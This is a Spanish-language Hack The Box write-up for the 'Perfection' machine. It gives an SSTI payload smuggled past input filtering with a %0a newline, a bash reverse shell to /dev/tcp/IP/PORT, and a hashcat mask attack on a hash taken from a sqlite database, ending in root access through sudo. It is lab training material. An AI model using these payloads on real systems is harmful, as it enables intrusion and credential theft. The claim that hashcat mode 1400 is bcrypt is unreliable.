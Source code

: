 ```yaml
---
layout: single
title: Perfection - Hack The Box
excerpt: "Para resolver esta máquina, nos aprovechamos de la calculadora y de que podemos controlar el input, pudiendo llevar a cabo un SSTI, esto a pesar de estar ciertamente un poco sanitizado, bypaseamos esto con CRLF, logrando así ejecutar comandos para entablarnos una Reverse Shell, para posterior a ello escalar privilegios indagando en el sistema operativo, encontrando un correo para el usuario de sistema actual, dándonos una pista de cómo podría ser la contraseña, encontramos una DB sqlite3, con una tabla que posee la contraseña hasheada para algunos usuarios, aplicamos fuerza bruta al hash del usuario que estamos actualmente, esto con la pista del correo y obtenemos la contraseña correcta, pudiendo así convertirnos en Root gracias a que el usuario tenía todos los permisos."
date: 2024-6-1
classes: wide
header:
  teaser: /assets/images/htb-writeup-perfection/perfection_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - SSTI
  - CRLF
  - CRLF > RCE
  - hash cracking
  - hashcat cracking
  
---
```


![](/assets/images/htb-writeup-perfection/perfection_logo.png)

Para resolver esta máquina, nos aprovechamos de la calculadora y de que podemos controlar el input, pudiendo llevar a cabo un SSTI, esto a pesar de estar ciertamente un poco sanitizado, bypaseamos esto con CRLF, logrando así ejecutar comandos para entablarnos una Reverse Shell, para posterior a ello escalar privilegios indagando en el sistema operativo, encontrando un correo para el usuario de sistema actual, dándonos una pista de cómo podría ser la contraseña, encontramos una DB sqlite3, con una tabla que posee la contraseña hasheada para algunos usuarios, aplicamos fuerza bruta al hash del usuario que estamos actualmente, esto con la pista del correo y obtenemos la contraseña correcta, pudiendo así convertirnos en Root gracias a que el usuario tenía todos los permisos.

# PortScan
____

```bash
nmap -sCV -p22,80 10.10.11.253 

# Nmap 7.94SVN scan initiated Sat Jun  1 17:04:27 2024 as: nmap -sCV -p22,80 -oN targeted 10.10
Nmap scan report for 10.10.11.253
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  1 17:04:36 2024 -- 1 IP address (1 host up) scanned in 9.94 seconds
```


# Sitio Web
![](/assets/images/htb-writeup-perfection/Pasted image 20240601185515.png)

Vemos que a simple vista tiene 3 posibles directorios, empiezo a indagar en ellos... empezando por el **About**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601185607.png)

Viendo dos nombres del equipo, tanto de la desarrolladora como la profesora, que quizás me sirvan mas adelante, me los guardo... ahora entro a la **calculadora de nota.**

![](/assets/images/htb-writeup-perfection/Pasted image 20240601185748.png)

empiezo a poner inputs, respetando el máximo & tratar de llevar a cabo una ejecución de comando y no logro nada, decido usar **BurpSuite** para ver la **DATA** como se tramita & tratar poder ejecutar comandos, o intentarlo...

![](/assets/images/htb-writeup-perfection/Pasted image 20240601190554.png)

detectaba el **input malicioso**, intente **bypassearlo** de varias manera, no logre nada exitoso por un rato, pero finalmente...

descubrí lo que es el **CRLF**, que son secuencias de caracteres especiales en el protocolo **HTTP** para iniciar una nueva **línea**, pudiendo así crear una nueva línea así que empecé a probar payload típicos de **SSTI** contemplados en [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Solo me funcionaron lo que empiezan con **<%%>**, pero **URLencodeando** todo, debido al **CRLF** para nueva línea que esta representado como:_ **"%0a"**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601191905.png)
```bash
T%0a<%25%3d7*7%25>
```
![](/assets/images/htb-writeup-perfection/Pasted image 20240601191925.png)

esta haciendo la multiplicación, así que ahora busco payload's para llevar a cabo un **RCE** & obtener nuestra Reverse Shell.

Nos ponemos en escucha con **Netcat**:
```bash
nc -nlvp PORT
```

![](/assets/images/htb-writeup-perfection/Pasted image 20240601192558.png)

```bash
T%0a<%25%3dsystem("bash+-c+'bash+-i+>%26/dev/tcp/IP/PORT+0>%261'")%3b%25>
```

![](/assets/images/htb-writeup-perfection/Pasted image 20240601192731.png)

Y ganamos acceso a la maquina como **Susan**, ya quedaría darle **tratamiento a la TTY,** que sino sabes como [((HAZ CLICK AQUi))](https://4uli.github.io/tratamiento-tty/#)

# Escalada de Privilegios

Empecé a indagar como **Susan** en el sistema, encontrando así el siguiente mail que recibió Susan.

 ![](/assets/images/htb-writeup-perfection/Pasted image 20240601193340.png)
 
básicamente, le estaban sugiriendo una contraseña, que empiece con el nombre, barra baja, el nombre al revés, barra baja números de 1 a 1 millón.

de primeras no me pareció interesante, seguí indagando...

descubrí este directorio, con esto:
![](/assets/images/htb-writeup-perfection/Pasted image 20240601193551.png)
una base de datos en **sqlite** formato 3, decidí conectarme a esta db, aunque ya podía ver los datos, pero no estaba seguro...

![](/assets/images/htb-writeup-perfection/Pasted image 20240601193834.png)

viendo así los usuarios & un **hash**, que seguramente sea la contraseña, tenemos una pista... que fue el correo que vimos anteriormente que recibió Susan, por lo que podemos intuir al menos los primeros caracteres de la contraseña, así que intento fuerza bruta con **Hashcat** en mi windows y con esta pista.

```bash
.\hashcat.exe -a 3 -m 1400 hash.txt "susan_nasus_?d?d?d?d?d?d?d?d?d" 
```

**-a 3:** este parámetro indica que el ataque será de modo "mascara."
**-m 1400**: indica el modo del hash, en este caso bcrypt.
**-hash.txt:** aquí dentro esta el hash que vimos en la base de datos.
**-"susan_nasus_?d?d?d?d?d?d?d?d?d"** : indica el inicio de la posible contraseña con la pista del correo, que es el nombre normal, al revés, y luego 9 posibles números.

![](/assets/images/htb-writeup-perfection/cracking.png)

obteniendo así la que podría ser la contraseña para Susan, así que procedo a probar para ver los **SUDOERS**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601195051.png)

Puedo ejecutar como quien sea lo que sea, así que me convierto en **ROOT** ya sabiendo las credenciales de **Susan**.

![](/assets/images/htb-writeup-perfection/Pasted image 20240601195153.png)
